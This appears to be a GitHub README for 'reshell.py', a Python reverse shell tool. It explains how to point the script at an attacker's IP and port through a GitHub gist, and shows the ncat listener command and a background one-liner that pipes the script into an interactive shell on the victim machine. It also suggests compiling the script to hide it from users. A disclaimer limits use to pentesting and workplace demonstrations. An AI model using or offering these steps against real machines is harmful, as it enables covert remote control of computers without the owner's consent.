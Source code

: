 
# reshell.py
![Python version][python-image]

A python reverse shell

## Configuration
 - Create a github gist with the ip address and the port the script will connect to.
 - open reshell.py go to line 44 and replace url to your gist.
 - run this script on remote machine.

## Connection to shell
    $ ncat -l 3000

     ██▀███  ▓█████   ██████  ██░ ██ ▓█████  ██▓     ██▓
    ▓██ ▒ ██▒▓█   ▀ ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒
    ▓██ ░▄█ ▒▒███   ░ ▓██▄   ▒██▀▀██░▒███   ▒██░    ▒██░
    ▒██▀▀█▄  ▒▓█  ▄   ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░
    ░██▓ ▒██▒░▒████▒▒██████▒▒░▓█▒░██▓░▒████▒░██████▒░██████▒
    ░ ▒▓ ░▒▓░░░ ▒░ ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
    ░▒ ░ ▒░ ░ ░  ░░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
    ░░   ░    ░   ░  ░  ░   ░  ░░ ░   ░     ░ ░     ░ ░
    ░        ░  ░      ░   ░  ░  ░   ░  ░    ░  ░    ░  ░

    sectasy@fs:~$

## Running as a background process
    sh -c "./reshell.py | sh -i &" && exit

## Other information
1. You can also compile this script to make it unreadable for regular user or smth.
2. Don't be a dick. This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.


[python-image]: https://img.shields.io/badge/python-3.9-blue